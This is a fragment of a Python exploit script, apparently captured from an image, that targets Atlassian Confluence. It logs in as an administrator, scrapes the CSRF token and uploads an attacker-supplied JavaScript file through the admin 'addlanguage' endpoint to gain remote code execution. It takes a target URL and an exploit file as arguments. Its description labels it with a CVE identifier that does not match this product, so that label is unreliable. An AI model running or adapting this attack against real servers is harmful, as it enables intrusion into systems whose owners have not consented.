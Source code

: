 ```
    if "atlassian-token" in resp.text:
        soup = BeautifulSoup(resp.text, 'html.parser')
        meta_tag = soup.find('meta', {'id': 'atlassian-token', 'name': 'atlassian-token'})
        if meta_tag:
            content_value = meta_tag.get('content')
            return content_value

        else:
            print("Meta tag not found")

def LoginAsAdministrator(session, url, proxy, username, password):
    login_url = url + "/dologin.action"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = f"os_username={username}&os_password={password}&login=%E7%99%BB%E5%BD%95&os_destination=%2F"
    session.post(url=login_url, headers=headers, data=data, proxies=proxy, verify=False, timeout=20)

def DoAuthenticate(session, url, proxy, password, alt_token):
    login_url = url + "/doauthenticate.action"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = f"atl_token={alt_token}&password={password}&authenticate=%E7%A1%AE%E8%AE%A4&destination=/admin/viewgeneralconfig.action"
    session.post(url=login_url, headers=headers, data=data, proxies=proxy, verify=False, timeout=20)
def UploadEvilJsFile(session, url, proxy, jsFilename, jsFileContent, alt_token):
    url = f"{url}/admin/plugins/newcode/addlanguage.action"
    data = {
        "atl_token": alt_token,
        "newLanguageName": "test"
    }
    files = {
        "languageFile": (
        jsFilename, jsFileContent, "text/javascript")
    }
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36"
    }
    session.post(url, headers=headers, data=data, files=files, verify=False, proxies=proxy, timeout=20)

def ParseArgs():
    parser = argparse.ArgumentParser(description="CVE-2023-20198-RCE")
    parser.add_argument("-u", "--url", type=str, help="target url to check, eg: http://192.168.198.1:8090", required=True)
    parser.add_argument("-p", "--proxy", type=str, default="http://127.0.0.1:8083", help="proxy url, eg: http://127.0.0.1:8083", required=False)
    parser.add_argument("-au", "--admin-username", type=str, help="The username of the user who is in the Administrators group", required=True)
    parser.add_argument("-ap", "--admin-password", type=str, help="The password of the user who is in the Administrators group", required=True)
    parser.add_argument("-f", "--file", type=str, help="exploit file", default="exploit.js", required=True)
```